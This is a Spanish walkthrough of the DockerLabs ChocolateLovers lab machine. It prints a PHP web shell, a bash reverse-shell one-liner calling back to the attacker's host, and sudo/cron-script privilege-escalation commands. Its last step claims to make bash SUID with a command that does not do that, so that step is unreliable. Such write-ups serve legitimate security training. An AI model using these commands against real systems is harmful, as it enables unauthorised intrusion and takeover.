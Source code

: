 # CHOCOLATE LOVERS - DOCKERLABS

## INFORMACIÓN Y DESPLIEGUE DE LA MÁQUINA

Esta máquina es de [DockerLabs](https://dockerlabs.es)

Para descargarla vas a [DockerLabs](https://dockerlabs.es) y buscas la máquina ChocolateLovers. Abres el enlace de mega, descargas el zip, lo descomprimes y ejecutas `bash ./auto_deploy.sh ./chocolatelovers.tar`. De esta forma se ejecutará el contendor de docker de la máquina.

### descripción

- Dificultad: fácil
- Sistema Operativo: Linux
- Autor: El Pingüino de Mario

## RECONOCIMIENTO DE RED

### conectividad y SO

Antes de empezar hay que confirmar que tenemos conectividad con la máquina, así que lanzamos `ping -c 1 172.17.0.2`.
> `-c 1`: solo enviar 1 paquete ICMP

![image](https://github.com/user-attachments/assets/266c2daa-b055-4f4f-92dd-e41463540782)

Vemos que tenemos conectividad y como tiene TTL 64 muy posiblemente la máquina use Linux.

### puertos y servicios

Hacemos un escaneo de todo el rango de puertos con nmap: `nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG tcp_ports`.
> `-p-`: todo el rango de puertos

> `--open`: solo reportar los puertos abiertos

> `-sS`: usar el método de escaneo SYN, que es más sigiloso y rápido que el normal. Requiere privilegios a nivel de sistema para enviar raw packets

> `--min-rate 5000` enviar como mínimo 5000 paquetes por segundo

> `-vvv` triple verbose. Nada más descubrir un puerto lo muestra por pantalla, también muestra más información de lo normal sobre el escaneo

> `-n` no hacer resolución DNS

> `-Pn` no hacer host discovery

> `-oG tcp_ports` exportar el output en formato grepeable al archivo `tcp_ports`

#### puertos abiertos

**80 - TCP - HTTP**

Hacemos un escaneo de servicios y versiones con nmap sobre el puerto 80: `nmap -p80 -sCV 172.17.0.2 -oN tcp_ports_targeted`.
> `-p80` hacer el escaneo sobre el puerto 80.

> `-sCV` escanear el servicio y la versión (`sV`) y lanzar los scripts de reconocimiento por defecto (`sC`)

> `-oN tcp_ports_targeted` exportar el output en formato nmap al archivo `tcp_ports_targeted`

## RECONOCIMIENTO WEB

Primero hacemos `whatweb http://172.17.0.2` desde consola:

![image](https://github.com/user-attachments/assets/9b943f53-93ab-49ac-994f-3eeef8aeccec)

No hay nada interesante a parte de la versión de Apache, que ya la sabíamos del escaneo de versiones de nmap.

Si vemos la web desde el navegador, sale esto:

![image](https://github.com/user-attachments/assets/bee97e49-7733-4c18-8150-4281e5718106)

Es la web predeterminada de Apache2 de Ubuntu. Si inspeccionamos el código, vemos varios comentarios en los que pone `<!-- /nibbleblog -->`, por lo que podemos probar esa ruta:

![image](https://github.com/user-attachments/assets/f17420e8-aeb7-4042-b3a0-4e95959c1f7c)

Al parecer se usa el CMS Nibbleblog. Vemos en el dashboard un enlace a `admin.php`, si nos metemos hay un panel de login. Si probamos de credenciales test:test, sale un error de php. Si ponemos admin:test, el error desaparece, lo que puede significar que el usuario admin existe. Podemos probar a meter admin:admin por si acaso funcionase, y vemos que nos deja loguearnos:

![image](https://github.com/user-attachments/assets/f08b666d-69f3-4064-a223-9cce9d410700)

## EXPLOTACIÓN WEB

Podríamos buscar en Google vulnerabilidades que tenga Nibbleblog. Si buscamos encontramos este exploit en python de github: https://github.com/TheRealHetfield/exploits/blob/master/nibbleBlog_fileUpload.py. Como es un exploit pequeño, podemos simplemente leer el código y entenderlo en vez de descargarlo y ejecutarlo. Parece ser que hay una ruta dentro del CMS que es `/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image`, en la que podemos subir archivos. Si cargamos la ruta sale esto:

![image](https://github.com/user-attachments/assets/a368b828-63f9-4893-8a4d-1db05f102aef)

Podemos probar a darle a Browse y subir una web-shell en php, que tenga este código:

```
<?php
	system($_GET['cmd']);
?>
```

Y vemos que en el exploit pone que la imagen que se sube se almacena en `/nibbleblog/content/private/plugins/my_image/image.php`. Si lo cargamos y probamos a poner `?cmd=id`, vemos que lo ejecuta:

![image](https://github.com/user-attachments/assets/76d6361c-9b8a-4ca9-928c-e5da92ac5e0d)

Así que ya tenemos un RCE. Nos ponemos en escucha por el puerto 443: `nc -nlvp 443`, y en la web-shell ejecutamos el comando `/bin/bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261"` para ganar la consola:

![image](https://github.com/user-attachments/assets/c0406c2a-be89-4265-acbd-2d0e023ec527)

Ahora hacemos el tratamiento de la TTY y empezamos al escalada de privilegios.

## ESCALADA DE PRIVILEGIOS (CHOCOLATE)

Si vemos el archivo `/etc/passwd`, vemos que hay un usuario llamado chocolate. Además si hacemos `sudo -l` para ver si tenemos privilegios especiales de sudo, vemos que podemos ejecutar sin contraseña `/usr/bin/php` como el usuario chocolate. Así que para ganar una bash como este usuario, ejecutamos `sudo -u chocolate /usr/bin/php -r 'system("/bin/bash");'`, y ganamos una bash como el usuario chocolate:

![image](https://github.com/user-attachments/assets/8501275a-ab0e-4b93-8f8f-4117482f1305)

## ESCALADA DE PRIVILEGIOS (ROOT)

Siendo el usuario chocolate, no podemos hacer `sudo -l` porque nos pide contraseña y no la sabemos. Tampoco encontramos archivos SUID interesantes. Pero podemos probar a buscar archivos que nos pertenezcan: `find / -user chocolate 2>/dev/null | grep -v "proc"`, hacemos `grep -v "proc"` para quitar los procesos que nos pertenecen. Y vemos esto:

![image](https://github.com/user-attachments/assets/96a52483-bc7a-4dce-9de2-1e0505a65cca)

Hay un archivo llamado `/opt/script.php`. Como somos propietarios de este archivo, podemos editarlo, pero por ahora no sirve de nada. Podríamos ver si hay otro usuario que lo ejecute, usando pspy. Podemos descargarlo en https://github.com/DominicBreuker/pspy. Lo ejecutamos:

![image](https://github.com/user-attachments/assets/5e809575-ade0-4919-bb81-0288cd173120)

Entre otros, vemos que el usuario de UID 0 (root) está ejecutando el archivo `/opt/script.php`, así que podemos editarlo para que cambie la bash a SUID:

`echo -n '<?php\n\tsystem("/bin/bash");\n?>' > /opt/script.php`

Esepramos a que root lo ejecute, y cuando veamos que la bash es SUID ejecutamos `bash -p` y ganamos una bash como root:

![image](https://github.com/user-attachments/assets/84f35b74-0cf2-4a1f-aefc-851d468df545)

Y ya somos root en la máquina ChocolateLovers.